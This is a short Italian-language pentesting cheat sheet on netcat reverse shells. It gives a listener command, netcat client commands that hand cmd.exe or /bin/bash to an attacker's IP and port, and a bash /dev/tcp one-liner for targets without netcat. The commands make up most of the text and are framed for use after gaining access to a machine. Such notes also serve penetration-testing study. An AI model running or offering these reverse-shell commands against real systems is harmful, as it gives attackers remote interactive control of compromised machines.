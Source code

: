 
# Netcat Reverse Shell
Una reverse shell è un tipo di connessione shell che permette a un dispositivo compromesso (il target) di iniziare una connessione in uscita verso una macchina controllata dall’attaccante (l’attacker listener), fornendo così all’attaccante l’accesso interattivo al sistema target.
Per poter effettuare questo tipo di connessione possiamo usare netcat in ascolto sulla macchina attaccante per poi avviare la connessione, sempre tramite netcat, dalla macchina target verso la macchina attaccante:
```bash
#Kali linux Listener
nc -nvlp PORT
```
```bash
#Windows Client
nc -nv IP PORT -e cmd.exe

#Linux Client
nc -nv IP PORT -e /bin/bash
```
il lato negativo di questa tecnica é che il target ha bisogno del indirizzo IP del attaccante per potersi connettere 


---

se hai ottenuto accesso alla macchina in qualche modo ma non hai permessi adatti e il target non ha netcat, puoi aprire una reverse shell in questo modo: 
```bash
# macchina attaccante
nc -nvlp PORT

# Target linux
bash -c 'bash -i >& /dev/tcp/IP/PORTA 0>&1'
```
